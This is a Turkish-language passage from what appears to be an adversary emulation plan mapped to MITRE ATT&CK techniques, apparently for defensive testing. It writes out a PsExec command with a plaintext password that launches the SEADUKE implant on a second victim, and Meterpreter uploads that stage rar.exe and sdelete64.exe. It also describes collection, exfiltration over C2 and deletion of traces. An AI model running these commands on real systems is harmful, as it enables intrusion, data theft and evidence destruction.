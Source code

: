 #### 8.3. System Services: Service Execution ([T1035](https://attack.mitre.org/versions/v6/techniques/T1035/) / [T1569.002](https://attack.mitre.org/techniques/T1569/002/))

**PSEXEC üzerinden remote olarak SEADUKE çalıştır.**

[meterpreter (PowerShell)\*] >

```powershell
.\PsExec64.exe -accepteula \\<victim 2 IP> -u "domainName\username" -p P@ssw0rd -i <session ID from 8A> "C:\Windows\Temp\python.exe"
```

Yeni Metasploit terminaline bağlantı gelir.

### Adım 9: Toplama

Saldırgan, belge ve medya dosyaları ([T1083](https://attack.mitre.org/techniques/T1083/), [T1119](https://attack.mitre.org/techniques/T1119/)) için dosya sistemini aramak için bir PowerShell tek satırlı komutu ([T1059](https://attack.mitre.org/versions/v6/techniques/T1059/) / [T1059.001](https://attack.mitre.org/techniques/T1059/001/)) çalıştırmadan önce ikincil kurbana ([T1105](https://attack.mitre.org/techniques/T1105/)) ek yardımcı programlar yükler. İlgili dosyalar toplanır ([T1005](https://attack.mitre.org/techniques/T1005/)), ardından tek bir dosyaya ([T1074](https://attack.mitre.org/versions/v6/techniques/T1074/) / [T1074.001](https://attack.mitre.org/techniques/T1074/001/)) şifrelenir ve sıkıştırılır ([T1002](https://attack.mitre.org/versions/v6/techniques/T1002/), [T1022](https://attack.mitre.org/versions/v6/techniques/T1022/) / [T1560.001](https://attack.mitre.org/techniques/T1560/001/).Bu dosya daha sonra mevcut C2 bağlantısı üzerinden sızar ([T1041](https://attack.mitre.org/techniques/T1041/)). Son olarak, saldırgan bu erişimle ilişkili çeşitli dosyaları ([T1107](https://attack.mitre.org/versions/v6/techniques/T1107/) / [T1070.004](https://attack.mitre.org/techniques/T1070/004/)) siler.

**Prosedür:**

#### 9.1. Ingress Tool Transfer ([T1105](https://attack.mitre.org/techniques/T1105/))

İkinci Metasploit terminalinden:

[msf] > `sessions`

[msf] > `sessions -i 1`

[meterpreter\*] >

```cmd
upload "/home/gfawkes/Round2/Day1/payloads/r2d1/Seaduke/rar.exe" "C:\\Windows\\Temp\\Rar.exe"
```

[meterpreter\*] >

```cmd
upload "sdelete64.exe" "C:\\Windows\\Temp\\sdelete64.exe"
```

#### 9.2. Collection and Exfiltration ([T1005](https://attack.mitre.org/techniques/T1005/), [T1041](https://attack.mitre.org/techniques/T1041/), [T1002](https://attack.mitre.org/versions/v6/techniques/T1002/),  [T1022](https://attack.mitre.org/versions/v6/techniques/T1022/) / [T1560.001](https://attack.mitre.org/techniques/T1560/001/))

